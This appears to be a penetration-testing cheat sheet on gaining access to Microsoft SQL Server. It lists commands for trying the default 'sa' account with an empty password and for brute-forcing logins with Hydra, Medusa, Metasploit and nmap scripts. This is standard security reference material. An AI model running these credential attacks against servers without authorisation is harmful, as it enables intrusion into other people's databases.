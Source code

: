 # MSSQL

Search Tag(s): #initial-access #password-cracking #network-protocols #network-mapper

## 01 - Null Authenication

### 1.1 - Manual

By default the username is `sa` with null authentication of the MSSQL database server instance

```
$ sqsh -S <IP> -U sa -P ""
```

### 1.2 - Network Mapper

```
$ nmap -p 1433 -Pn --script ms-sql-empty-password <IP>
```

## 02 - Brute Force

### 2.1 - Hydra

```
$ hydra -V -L users.lst –P passwords.lst <IP> mssql
```

### 2.2 - Medusa

```
$ medusa -h <IP> –U users.lst –P passwords.lst –M mssql
```

### 2.3 - Metasploit

```
msf > use auxiliary/scanner/mssql/mssql_login

msf auxiliary(scanner/mssql/mssql_login) > options

Module options (auxiliary/scanner/mssql/mssql_login):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   BLANK_PASSWORDS      true             no        Try blank passwords for all users
   BRUTEFORCE_SPEED     5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS         false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS          false            no        Add all passwords in the current database to the list
   DB_ALL_USERS         false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING     none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                              no        A specific password to authenticate with
   PASS_FILE                             no        File containing passwords, one per line
   RHOSTS                                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433             yes       The target port (TCP)
   STOP_ON_SUCCESS      false            yes       Stop guessing when a credential works for a host
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                yes       The number of concurrent threads (max one per host)
   USERNAME             sa               no        A specific username to authenticate as
   USERPASS_FILE                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS         false            no        Try the username as the password for all users
   USER_FILE                             no        File containing usernames, one per line
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)
   VERBOSE              true             yes       Whether to print output for all attempts

msf auxiliary(scanner/mssql/mssql_login) > set rhosts <IP>

msf auxiliary(scanner/mssql/mssql_login) > set user_file /path/to/users.lst

msf auxiliary(scanner/mssql/mssql_login) > set pass_file /path/to/passwords.lst

msf auxiliary(scanner/mssql/mssql_login) > run -j
```

### 2.4 - Network Mapper

```
$ nmap -p 1433 -Pn --script ms-sql-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```

---
## References

### Source Repositories

- [SQSH](https://sourceforge.net/projects/sqsh/)

### Hacking Articles

- [Hacking Articles: Password Cracking MSSQL](https://www.hackingarticles.in/password-crackingms-sql/)

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)

### SQLServerCentral

- [SQLServerCentral: Using `pw-inspector` in Brute Force attack on SQL Server](https://www.sqlservercentral.com/articles/using-pw-inspector-in-brute-force-attack-on-sql-server)